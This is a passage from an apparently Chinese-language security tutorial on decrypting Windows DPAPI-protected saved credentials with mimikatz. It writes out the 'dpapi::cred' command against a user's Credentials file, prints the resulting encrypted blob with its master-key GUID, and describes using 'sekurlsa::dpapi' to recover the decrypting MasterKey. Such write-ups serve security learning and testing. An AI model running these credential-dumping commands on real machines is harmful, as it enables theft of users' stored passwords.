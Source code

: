 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210122120624.png-water_print](assets/1699410001-1f50cbee8d6757b196bd57e937533154.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210122120624.png-water_print")

-   使用 mimikatz 进行操作
    -   `mimikatz dpapi::cred /in:C:\Users\by\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D`

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>``` | ```fallback<br>**BLOB**<br>  dwVersion          : 00000001 - 1<br>  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}<br>  dwMasterKeyVersion : 00000001 - 1<br>  guidMasterKey      : {ffc994a1-de8d-4304-9416-31e587f7a8ca}<br>  dwFlags            : 20000000 - 536870912 (system ; )<br>  dwDescriptionLen   : 00000030 - 48<br>  szDescription      : Local Credential Data<br><br>  algCrypt           : 00006610 - 26128 (CALG_AES_256)<br>  dwAlgCryptLen      : 00000100 - 256<br>  dwSaltLen          : 00000020 - 32<br>  pbSalt             : 00fed8ca7ec6d44585dd1fbd8b57e77b6ab0cf318ec5d52d09fd0694ffb89ccb<br>  dwHmacKeyLen       : 00000000 - 0<br>  pbHmackKey         :<br>  algHash            : 0000800e - 32782 (CALG_SHA_512)<br>  dwAlgHashLen       : 00000200 - 512<br>  dwHmac2KeyLen      : 00000020 - 32<br>  pbHmack2Key        : b49ef55f909fa503eda37ddc797c83c99df983920bfb4628e07aac5cb32bb530<br>  dwDataLen          : 000000b0 - 176<br>  pbData             : 4083f8f501b999a35c4aa57ce732bf52d30a6e604dac5a91b6fd3e65660c52a536025c5126f0d12b85044498deef08a8688b3459f49514ed6ae46271a1cb4cd0e70845d9b6beccbcbe85dead0fb7c80b4f7810add87b75c48592fcbfbbfd94fa4eee8004f8cf6d9619ef4b9af643f4c9ef0e8a2a5b0cd00530a5638cfd114fee4b735ac12eef2c7e6a0364845eb0ee4b3ab121e33324f8d5af48f3422bd47a76ab5e9e9e5a1a383e22fff8bf851b6a2a<br>  dwSignLen          : 00000040 - 64<br>  pbSign             : 7c8dbe7991c6af4d3bfc9f808790a0904738d0ca227bc2ee20ee26cbf06487dd2679e932b27ea0c0cbbe590ee6430641605d7001b2158c8873c5d6a09a9855a8<br>``` |

接下来需要使用的就是 guidMasterKey、pbData 数据。pbData 是凭据的加密数据，guidMasterKey 是凭据的 GUID

-   使用 `sekurlsa::dpapi`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210122120648.png-water_print](assets/1699410001-b5314a5b7cb1d726d4bdd50da9fe7afd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210122120648.png-water_print")

根据目标凭据 `GUID:{ffc994a1-de8d-4304-9416-31e587f7a8ca}`找到其关联的 MasterKey，这个 `MasterKey` 就是加密凭据的密钥，即解密 `pbData` 所必须的东西。
